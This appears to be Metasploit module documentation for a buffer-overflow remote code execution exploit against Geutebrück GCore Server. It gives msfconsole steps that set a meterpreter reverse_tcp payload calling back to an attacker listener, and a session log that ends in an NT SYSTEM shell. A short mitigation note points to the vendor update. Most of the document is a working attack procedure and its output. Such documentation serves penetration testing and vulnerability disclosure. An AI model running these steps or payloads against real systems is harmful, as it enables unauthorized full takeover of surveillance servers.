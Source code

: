 ## Vulnerable Application

  Geutebrück GCore Server 1.3.8.42,1.4.2.37 are vulnerable to a buffer overflow exploitation. Since this application is started with system privileges this allows a system remote code execution.

## Verification Steps

  1. Install Windows as basic OS (Tested with Win2012R2,Windows 7)
  2. Install the Geutebrück GCore server
  3. Verify that http://<your target ip>:13003/statistics/runningmoduleslist.xml available is.
  4. Start msfconsole
  5. Do: ```use [exploit/windows/http/geutebrueck_gcore_x64_rce_bo]```
  6. Do: ```set rhost <your target ip>```
  7. Do: ```set rport 13003``
  8. Do: ```set payload windows/x64/meterpreter/reverse_tcp```
  9. Do: ```exploit```
  10. You should get a shell as NT/SYSTEM.

## Scenarios
```
msf exploit(geutebrueck_gcore_x64_rce_bo) > show options

Module options (exploit/windows/http/geutebrueck_gcore_x64_rce_bo):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    192.168.1.10      yes       The target address
   RPORT    13003             yes       The target port



   Payload options (windows/x64/meterpreter/reverse_tcp):

      Name      Current Setting  Required  Description
      ----      ---------------  --------  -----------
      EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
      LHOST     192.168.1.11     yes       The listen address
      LPORT     4444             yes       The listen port


   Exploit target:

      Id  Name
      --  ----
      0   Automatic Targeting

msf exploit(geutebrueck_gcore_x64_rce_bo) > exploit
    [*] Started reverse TCP handler on 192.168.1.11:4444
    [*] 192.168.1.10:13003 - Trying to fingerprint server with http://192.168.1.10:13003/statistics/runningmoduleslist.xml...
    [*] 192.168.1.10:13003 - Vulnerable version detected: GCore 1.4.2.37, Windows x64 (Win7, Win8/8.1, Win2012R2,...)
    [*] 192.168.1.10:13003 - Preparing ROP chain for target 1.4.2.37!
    [*] 192.168.1.10:13003 - Crafting Exploit...
    [*] 192.168.1.10:13003 - Exploit ready for sending...
    [*] 192.168.1.10:13003 - Exploit sent! [*] Sending stage (1188415 bytes) to
    [*] Meterpreter session 1 opened ( :4444 -> 49963) at 2017-11-03 13:14:51 +0200
    [*] 192.168.1.10:13003 - Closing socket.
    meterpreter > getsystem
    ...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
    meterpreter > getuid Server username:
    NT-AUTORITÄT\SYSTEM
    meterpreter >
```
## Mitigation
Geutebrück released a new Version and an update for the affected version which should be installed to fix the described vulnerabilities.
